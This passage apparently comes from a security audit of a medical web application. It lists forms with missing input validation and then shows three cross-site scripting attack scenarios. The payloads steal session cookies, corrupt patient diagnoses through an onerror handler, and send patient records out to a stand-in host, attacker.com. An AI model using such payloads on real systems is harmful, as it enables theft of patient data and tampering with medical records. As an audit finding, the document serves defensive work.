 #### 2. **Medical Data Forms (Critical)**

- **Location:** `src/pages/UpdateDiagnosisPage.tsx`
- **Issues:**
  - Medical diagnosis, symptoms, and drug information accepted without validation
  - Potential for malicious scripts in medical records
  - No length limitations
  - No pattern validation for medical text

#### 3. **Financial Forms (Medium-High)**

- **Location:** `src/pages/PaymentForm.tsx` (partially validated)
- **Issues:**
  - Some validation present but inconsistent
  - Missing XSS protection in error messages

#### 4. **General Input Fields**

- Multiple forms with inconsistent or missing validation
- User profile data, appointment details, staff information

### Attack Scenarios

#### **Scenario 1: XSS Attack via Login Form**

```javascript
// Malicious input in username field:
<script>
  // Steal session cookies fetch('http://attacker.com/steal?cookie=' +
  document.cookie); // Redirect to phishing site window.location =
  'http://attacker-phishing-site.com';
</script>
```

#### **Scenario 2: Medical Record Corruption**

```javascript
// Malicious script in diagnosis field:
<img src="x" onerror="
  // Modify other patient records
  fetch('/api/v1/patient-diagnosis/123', {
    method: 'PUT',
    body: JSON.stringify({diagnosis: 'CORRUPTED'})
  });
">
```

#### **Scenario 3: Data Exfiltration**

```javascript
// Script in any text field:
<script>
  // Access and exfiltrate sensitive medical data
  fetch('/api/v1/patients').then(r=>r.json()).then(data=>
    fetch('http://attacker.com/exfil', {
      method: 'POST',
      body: JSON.stringify(data)
    })
  );
</script>
```

---